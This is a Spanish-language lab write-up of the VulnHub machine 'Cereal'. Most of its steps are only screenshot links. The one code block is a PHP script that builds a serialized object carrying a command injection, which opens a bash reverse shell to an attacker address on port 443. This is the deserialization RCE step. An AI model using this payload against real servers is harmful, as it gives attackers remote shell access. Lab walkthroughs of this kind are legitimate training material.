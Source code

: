 [[Vulnhub]] [[Disiplinas.]]

![[Pasted image 20230727104520.png]]

---
Martes 25 de Julio del 2023 Mexico.
CDMX-Polanco
Valente Spiegel

![[Pasted image 20230727103950.png]]

---

### Habilidades. 

Enumeración FTP 
Hospedaje Virtual 
Enumeración de Subdominios 
Divulgación de Información - Descubrimiento de Archivos de Respaldo 
Ataque de Deserialización PHP [RCE] 
Enumeración de Tareas Programadas (pspy) 
Abuso de Tarea Programada (Chown Symlink) [Escalada de Privilegios]

### Certificaciones.

eWPT  
eCPPTv2

---
### Creación de directorios para espacio de trabajo.

Es importante crear directorios o espacios de trabajo específicos al resolver una máquina.
Al crear un directorio o espacio de trabajo dedicado para una máquina de VulnHub, puedes mantener ordenada toda la información relacionada con esa máquina en un solo lugar. Esto incluye archivos de configuración, resultados de escaneos, notas y cualquier otro dato relevante. Una estructura organizada facilita el seguimiento del progreso, el acceso rápido a la información y la revisión posterior de los pasos realizados.

```
mkdir Cereal && cd Cereal && mkdir {Scan,Content,Exploits,Evidencia} && ls && cd Scan
```
![[Pasted image 20230727104049.png]]

---
### Descubrimiento de ip.

![[Pasted image 20230727105129.png]]
![[Pasted image 20230727105149.png]]

![[Pasted image 20230727105202.png]]

---
### Enumeramiento de puertos.


![[Pasted image 20230727110135.png]]

![[Pasted image 20230727110522.png]]

![[Pasted image 20230727110826.png]]
![[Pasted image 20230727110959.png]]

---

### Escaneo y enumeración web.


![[Pasted image 20230727111137.png]]

![[Pasted image 20230727111155.png]]
![[Pasted image 20230727112833.png]]
![[Pasted image 20230727112954.png]]

![[Pasted image 20230727113008.png]]

![[Pasted image 20230727113053.png]]

![[Pasted image 20230727113221.png]]
![[Pasted image 20230727113253.png]]

![[Pasted image 20230727114323.png]]

![[Pasted image 20230727132412.png]]

![[Pasted image 20230727132520.png]]

![[Pasted image 20230727132610.png]]

![[Pasted image 20230727133223.png]]

![[Pasted image 20230727133239.png]]

![[Pasted image 20230727134002.png]]
![[Pasted image 20230727145311.png]]

![[Pasted image 20230727145517.png]]

![[Pasted image 20230801112158.png]]

---
### Escalamiento a usuario.

El código PHP que proporcionas parece tener la intención de serializar un objeto `pingTest` y luego imprimir el resultado codificado en URL. Sin embargo, hay un problema en la declaración de la propiedad `$ipAddress`. Parece que intentas ejecutar un comando de shell malicioso dentro de la propiedad, lo cual es una grave vulnerabilidad de seguridad.

El comando malicioso que se ha incluido en la propiedad `$ipAddress` es una forma de intentar obtener una shell inversa en el servidor objetivo. Es una práctica muy peligrosa e insegura, y no debería ser usada en ningún entorno, ya que podría ser utilizada para llevar a cabo ataques y acciones maliciosas.

```
<?php 
class pingTest { 
public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.153.129/443 0>&1'"; 
public $isValid = True; 
public $output = ""; } 
echo urlencode(serialize(new pingTest)); 
?>
```

![[Pasted image 20230801115652.png]]

![[Pasted image 20230801115809.png]]

![[Pasted image 20230801120333.png]]

![[Pasted image 20230801120841.png]]

![[Pasted image 20230801120650.png]]

---
### Tratamiento de Shell y tty

![[Pasted image 20230801121316.png]]

![[Pasted image 20230801121420.png]]

![[Pasted image 20230801121536.png]]

---
### Usuario Rocky.


![[Pasted image 20230801122245.png]]

![[Pasted image 20230801122449.png]]

![[Pasted image 20230801125810.png]]

![[Pasted image 20230801130153.png]]

![[Pasted image 20230801130203.png]]

![[Pasted image 20230801130242.png]]
![[Pasted image 20230801130341.png]]

---
### Escalamiento a root.

![[Pasted image 20230801133848.png]]

![[Pasted image 20230801133928.png]]

![[Pasted image 20230801134531.png]]

![[Pasted image 20230801134736.png]]

![[Pasted image 20230801134851.png]]

![[Pasted image 20230801134940.png]]

![[Pasted image 20230801135032.png]]

![[Pasted image 20230801135058.png]]


